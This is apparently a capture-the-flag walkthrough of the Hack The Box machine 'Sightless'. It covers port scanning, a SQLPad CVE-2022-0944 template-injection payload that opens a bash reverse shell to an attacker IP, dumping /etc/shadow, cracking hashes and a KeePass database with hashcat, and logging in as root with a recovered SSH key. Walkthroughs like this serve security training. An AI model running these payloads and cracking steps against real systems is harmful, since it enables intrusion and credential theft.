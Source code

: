 # HTB - Sightless

**IP Address:** `10.10.11.32`  
**OS:** Ubuntu (Jammy + Docker)  
**Difficulty:** Medium  
**Tags:** Web, Docker, SQLPad, CVE-2022-0944, SSH, Port Forwarding, KeePass

---

## 1. Enumeration

### 1.1 Ping

```bash
ping -c 1 10.10.11.32
```

✅ Machine is reachable

### 1.2 Nmap Scans

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.32 -oG allPorts
nmap -p21,22,80 -sC -sV 10.10.11.32 -oN targeted
```

Found:

- 21/tcp → FTP
- 22/tcp → SSH (OpenSSH 8.9p1)
- 80/tcp → HTTP (nginx 1.18.0)

---

## 2. Web Analysis

After editing `/etc/hosts`, accessed subdomain running **SQLPad**.  
Verified via port check:

```bash
nmap -p3306 -sC -sV 10.10.11.32
```

Port was closed, but a connection attempt was seen on the server.

---

## 3. Exploiting SQLPad (CVE-2022-0944)

Used RCE vulnerability:

```json
{{process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.4/443 0>&1"')}}
```

Started listener:

```bash
nc -lnvp 443
```

✅ Received reverse shell  
Confirmed access inside Docker container.

---

## 4. Extracting Password Hashes

Dumped `/etc/shadow`. Found hash for `michael`:

```bash
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/
```

Used `hashid` → SHA-512 (mode 1800)

Cracked with Hashcat:

```bash
hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```

✅ Password: `insaneclownposse`

---

## 5. SSH to Main Host

```bash
ssh michael@10.10.11.32
```

🏁 **User flag obtained**

---

## 6. Local Port Forwarding

Apache2 was running on `127.0.0.1:8080`, discovered via:

```bash
ss -nltp
```

Port forwarding:

```bash
ssh michael@10.10.11.32 -L 8081:127.0.0.1:8080
```

Added to `/etc/hosts`:

```
127.0.0.1 admin.sightless.htb
```

Accessed: `http://admin.sightless.htb:8081`

---

## 7. Froxlor Exploitation (XSS)

Identified Froxlor panel on port 8080.

Found advisory: [GHSA-x525-54hf-xr53](https://github.com/advisories/GHSA-x525-54hf-xr53)

Used Burp Suite to intercept login and inject payload into login field.

After second login attempt with:

- Username: abcd  
- Password: Abcd@@1234

✅ Logged in as admin

---

## 8. FTP Access & KeePass

New user `web1` was visible. Updated password via web panel.

Logged in via FTP:

```bash
lftp 10.10.11.32
```

Found file: `Database.kdb` (KeePass DB)

Extracted hash:

```bash
keepass2john Database.kdb > hash.txt
```

Cracked with:

```bash
hashcat -m 13400 hash.txt /usr/share/wordlists/rockyou.txt
```

✅ Password: `bulldogs`

Opened DB in KeePassXC → found root credentials

---

## 9. SSH as Root

Password did not work directly.

Discovered attached `id_rsa` file in KeePass entry.  
Pasted contents into local file and set permissions:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.32
```

🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE

